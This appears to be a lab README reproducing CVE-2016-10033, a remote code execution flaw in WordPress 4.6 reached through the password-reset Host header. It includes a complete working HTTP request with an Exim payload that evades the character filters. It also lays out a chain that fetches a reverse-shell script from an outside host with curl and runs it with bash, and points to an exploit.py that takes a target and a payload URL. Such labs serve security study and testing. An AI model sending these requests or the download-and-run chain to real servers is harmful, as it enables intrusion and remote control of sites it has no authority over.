 # Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

[中文版本(Chinese version)](README.zh-cn.md)
[PT-BR(Portuguese version)](./README.pt-br.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker-compose build
docker-compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit `http://your-ip:8080/`, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}`instead of`/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process is follows:

- Write the exp of reverse shell and put it on a site. The exp have this following requirements:
  - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
  - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).
- Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.
- Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.
- Send these two packets in order.

Here is [exploit.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)
